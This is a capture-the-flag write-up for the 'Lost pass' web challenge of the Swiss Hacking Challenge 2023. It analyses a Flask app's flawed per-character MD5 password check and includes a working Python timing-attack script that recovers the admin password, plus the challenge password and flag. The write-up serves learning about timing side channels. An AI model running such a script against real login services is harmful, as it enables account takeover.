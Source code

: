 ### Intro
Swiss hacking challenge is a swiss national CTF, made to select the best hackers for ECSC and other competitions. Although I am not swiss,
I wanted to know more about the /mnt/41n team, the friendly rivalry with France ( it seems to run many years back in ECSC circuit) and memes.

# SHC 2023 - Lost pass (WEB) 

## Description

Looks like somebody lost his password.

We are given website [source code](https://github.com/eqqn/eqqn.github.io/blob/master/uploads/lost_pass.zip) for the website. It's a python Flask application.

### Looking around
The frontend presents you a login form. The `register` buttons do not submit any data and we get HTTP 405 - Method not allowed. 
The /register API is defined in the source code provided, and I could register as a user, and receive a JWT token to toy with.
` curl -X POST hxxp://chall.m0unt41n.ch:31063/register -d 'username=USER&password=PASS' `

### Code analysis

There is a lot going on in this code, I was jumping around and doing all the wrong things initially. 

```
sys.set_int_max_str_digits(0)
app.config['SECRET_KEY'] = secrets.token_hex(20)
```
*set_int_max_str_digits(0)* did not run initially, needing python3.11. I commented it out and tried to run it locally, 
TLDR - its a DOS mitigation[1],[2], setting it at 0 does not affect integer calc and actually disables it. No relevance in integer(crypto?) operations.

The secret is generated on startup securely and hashcat will not even let you do a 16^20 search.

There are also some SQL queries done, but no luck there.
```
def error_log(username, password):
    if username == "admin":
        f = open("error.log", "w")
        time.sleep(1)  #this is kind of interesting...
        f.write(f"SOMEONE TRIED TO LOGIN AS ADMIN USING {password} !!!1!11!!")
        f.close()
    return False
```
This initially looked interesting, if we could inject into {password} variable. We can, but python f strings are solid enough. 
I got the application to run locally and tried passing python commands as password, but no luck.

```
@app.route('/dashboard', methods=['GET'])
@auth_required
def dashboard(token):
    user = db.getUserbyId(token["id"])
    if user["username"] == "admin":
        return render_template('dashboard.html', message=f"Your secret is: {open('flag.txt', 'r').read()}")
    return render_template('dashboard.html', message=f"lettuce")
```
the `user["username"] == "admin"` comparison is solid, creating "weird" usernames like `admin\n` or `admin[]` did not pass.

### The vulnerability
Perhaps obvious, but the password generation has a flaw (besides using md5)- it compares the hash of **each character** rather than the whole string... 
```
def check_password(username, hashed_password, password):
    hashed_password = hashed_password.split(",")
    for x in range(len(hashed_password)):
        try:
            if hash_char(password[x]) != hashed_password[x]:
                return error_log(username, password)
        except:
            return False
    return True
  
def hash_char(char):
    return hashlib.md5(char.encode()).hexdigest()[:20]
```
This opens the doors for a Timing Attack.  To confirm the theory, I tried comparing times of the first letter of the pass. 
I observed that with the first password character "d", the response time was short. If we did not provide another wrong character, 
then error ( and 1 second sleep!) is never performed. 

I wrote a script, tested locally, and I was able to recover my dummy secret. 

```
import requests
import time

headers = {
    'Content-Type': 'application/x-www-form-urlencoded',
    'Connection': 'keep-alive'
}
charlist='1234567890abcdefghijklmnopqrstuvwxyz'
data = {'username': 'admin','password': 'a'}

def tracer(text):
    data = {'username': 'admin','password': text}
    start_time=time.time()
    response = requests.post('http://chall.m0unt41nD3w.ch:30902/login', headers=headers, data=data)
    duration=time.time() - start_time
    print( "%s--- %s seconds" %(text, duration))
    return duration

i=0
password=''
while True:
    letter=charlist[i]
    attempt=password+letter
    duration=tracer(attempt)
    i=i+1
    if duration <1: #good outcome
        time.sleep(0.1)
        duration=tracer(attempt)
        if duration < 1:
            password=attempt
            i=0
    time.sleep(0.1)
```
![Password recovery](https://eqqn.github.io/images/shc_lp_ducksnice.png)


I unleashed it on the challenge website and recovered the password for admin :
`ducksnice`

![flag](https://eqqn.github.io/images/shc_lp_flag.png)
Login and get the flag! 
shc{ducks_like_2_sleep_quack}


[1]https://github.com/python/cpython/issues/95778
[2]https://python-forum.io/thread-38185.html
